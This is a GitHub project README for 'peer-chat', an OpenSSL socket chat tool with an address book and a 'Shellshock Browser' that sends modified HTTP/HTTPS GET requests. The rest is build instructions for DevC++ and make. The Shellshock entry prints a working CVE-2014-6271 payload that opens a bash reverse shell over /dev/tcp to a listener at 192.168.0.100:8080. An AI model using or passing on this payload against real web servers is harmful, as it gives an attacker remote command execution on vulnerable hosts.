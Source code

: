 **[peer-chat](#)** **[Tools](tools/Readme.md)**

# peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    **[A useful Link](http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref)**
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

* On Linux:

# make
# sudo make install
# sudo make uninstall
# make clean
# make version
